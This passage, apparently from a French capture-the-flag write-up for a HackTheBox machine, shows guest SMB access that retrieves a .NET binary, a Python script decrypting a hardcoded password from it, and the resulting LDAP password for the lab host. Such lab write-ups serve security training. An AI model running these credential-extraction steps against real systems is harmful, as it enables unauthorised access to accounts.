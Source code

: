 ### UserInfo.exe.zip : .NET executable
```bash
$ nxc smb 10.10.11.174 -u 'guest' -p '' --get-file \\UserInfo.exe.zip UserInfo.exe.zip --share support-tools
SMB         10.10.11.174    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:support.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.174    445    DC               [+] support.htb\guest: 
SMB         10.10.11.174    445    DC               [*] Copying "\UserInfo.exe.zip" to "UserInfo.exe.zip"
SMB         10.10.11.174    445    DC               [+] File "\UserInfo.exe.zip" was downloaded to "UserInfo.exe.zip"
```
Ce zip contient un binaire cutom **UserInfo.exe**. En décompilant le binaire, on découvre une string ressemblant à un mot de passe chiffré ainsi qu'une clé :
- "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
- "armando"

Une fonction **getPassword** semble déchiffrer cette string à l'aide de la clé en effectuant une manipulation.

![enc_password and protected key](image.png)

Grâce à **ChatGPT**, j'ai pu comprendre comment fonctionnait le code et il m'a généré un code Python équivalent au code **.NET** ce qui m'a permis de récupérer le mot de passe :
```python
import base64

enc_password = "0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"

# Base64 decode
enc_bytes = base64.b64decode(enc_password)

dec_bytes = bytearray()
for i, b in enumerate(enc_bytes):
    k = key[i % len(key)]
    dec_bytes.append(b ^ k ^ 0xDF)

password = dec_bytes.decode("utf-8", errors="ignore")
print(password)
```
En executant le python, on trouve le mot de passe :
- ldap : `nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz`
